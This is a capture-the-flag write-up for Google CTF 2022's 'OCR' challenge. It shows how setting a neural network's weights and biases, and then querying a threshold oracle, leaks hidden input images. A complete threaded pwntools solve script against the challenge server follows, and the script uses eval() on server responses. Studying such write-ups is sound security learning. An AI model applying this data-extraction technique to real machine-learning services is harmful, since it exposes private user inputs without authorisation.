 # Google-CTF-OCR-Writeup
> Jason1024 @ Balsn

<!--  
\left(
\begin{bmatrix}
r_0 & g_0 & b_0 & r_1 & g_1 & b_1 & \cdots\\
\end{bmatrix}_{1\times768}
\begin{bmatrix}
1 & 0 & 0& 0\\
0 & 0 & 0& 0\\
\vdots & \vdots & \vdots & \vdots \\
0 & 0 & 0& 0\\
\end{bmatrix}_{768\times 4} +
\begin{bmatrix}
b & 0 & 0& 0\\
\end{bmatrix}_{1\times 4}
\right)
\begin{bmatrix}
1 & 0 & \cdots& 0\\
0 & 0 & \cdots& 0\\
0 & 0 & \cdots& 0\\
0 & 0 & \cdots& 0\\
\end{bmatrix}_{4\times 128}+
\begin{bmatrix}
0 & \cdots & 0\\
\end{bmatrix}_{1\times 128}=
\begin{bmatrix}
(r_0 + b) & 0 & \cdots & 0\\
\end{bmatrix}_{1\times 128}
-->

We can represent the computation of prediction with the below formula. The first parenthesis represents the computation of the dense layer of 4 nodes, and the latter part represents that of the softmax layer with 128 outputs before applying the activation function.

![](https://i.imgur.com/Rrcyqqe.jpg)

By choosing the weights (of the 768x4 and 4x128 matrix) and biases (of the 1x4 matrix) wisely, we can leak the information of each channel pixel by pixel, just like the above example, which outputs $(r_0 + b)$, where $r_0$ is wanted value from the image and $b$ is some bias that we have control.

Continue taking the above example; after applying the softmax function, the value of index 0 will be : 
$$\frac{e^{(r_0+b)}}{e^{(r_0+b)} + 127}$$

The problem provides an oracle that outputs if exists some i such that predict[i] > 0.5 or not, that is to say, we have an oracle to check if:
$$ \frac{e^{(r_0+b)}}{e^{(r_0+b)} + 127} > 0.5 \Rightarrow b > \ln{127} - r_0$$

Since we already know that $\forall i, 0 \le r_i, g_i, b_i \le 1$, we only need to search the smallest value of b within $[\ln{127} - 1, \ln{127}]$ that make the oracle output index 0 (`\x00`).

We can search the value by splitting the range into certain portions (e.g., 8), finding the first successful $b$, and using it as a pixel value representation. (Noted that we're testing the same pixel for multiple pictures simultaneously, so binary searching $b$ may not be helpful).

After leaking the original image values, we can use the python package pillow to generate images. Below is the writeup and the resulting image:

```python=
from pwn import *
from math import log
from PIL import Image, ImageDraw
import subprocess, threading
from tqdm import tqdm

portion = 5

# data[row][col][channel] = {idx: val}, where idx is the index of image
data = [[[dict() for channel in range(3)] for col in range(16)] for row in range(16)]

def bruteforce(row, channel, pbar, lock):
    r = remote('ocr.2022.ctfcompetition.com', 1337)

    # solve proof of work challenge
    t = r.recvuntil(b'===================').decode().split('\n')
    challenge = list(filter(lambda x: 'python3' in x, t))[0].split(' ')[-1]
    ans = subprocess.check_output(
        ['python3', 'kctf-pow.py', 'solve', challenge], stderr=subprocess.DEVNULL)
    r.sendlineafter(b'Solution?', ans)

    # clear all weightes and biases
    r.sendlineafter(b'Menu:', b'0')

    # helper function to set weight: [layer, ..index.., weight]
    def setWeight(r, weight):
        r.sendlineafter(b'Menu:', b'1')
        r.sendlineafter(b'Type layer index, weight index(es), and weight value:', 
            b' '.join(list(map(lambda x: str(x).encode(), weight))))

    # set weight for softmax layer: layer 2, (0, 0) to 1
    setWeight(r, [2, 0, 0, 1])

    for col in range(16):
        idx = (row + 16 * col)*3 + channel
        setWeight(r, [0, idx, 0, 1])

        pre = None
        for i in range(1, 1 + portion):
            b = log(127) - 1 + (i / portion)
            setWeight(r, [1, 0, b])

            r.sendlineafter(b'3. Quit', b'2')
            r.recvuntil(b'sees:')
            res = r.recvline().split(b'\'')[1]
            res = eval(f"b'{res.decode()}'")
            res = [c == 0 for c in res]

            for cid, val in enumerate(res):
                if val and (pre is None or not pre[cid]):
                    data[row][col][channel][cid] = i
            pre = res

        lock.acquire()
        pbar.update(1)
        lock.release()

        setWeight(r, [0, idx, 0, 0])

    r.close()
    return

lock, pbar = threading.Lock(), tqdm(total = 16 * 16 * 3)

threads: list[threading.Thread] = []
for row in range(16):
    for channel in range(3):
        threads.append(threading.Thread(target=bruteforce, args=(row, channel, pbar, lock)))
        threads[-1].start()

for thread in threads:  thread.join()

# plot the image
images = [Image.new('RGB', (16*16, 16*16)) for _ in range(len(data[0][0][0]))]
for row in range(16):
    for col in range(16):
        for idx, image in enumerate(images):
            ImageDraw.Draw(image).rectangle(
                (16*row, 16*col, 16*(row+1), 16*(col+1)),
                tuple([data[row][col][chan][idx] * 255 // portion for chan in range(3)])
            )

for idx, image in enumerate(images):
    image.save(f'result/{idx}.png')

images[0].save('result.gif', save_all=True, append_images=images[1:], duration=1000, loop=0)
exit(0)
```

![](https://i.imgur.com/G5xQTpj.gif)


Flag: `CTF{n0_l3aky_ReLU_y3t_5till_le4ky}`

The code is also available at [my Github repo](https://github.com/jason-plainlog/Google-CTF-OCR-Writeup/tree/main)
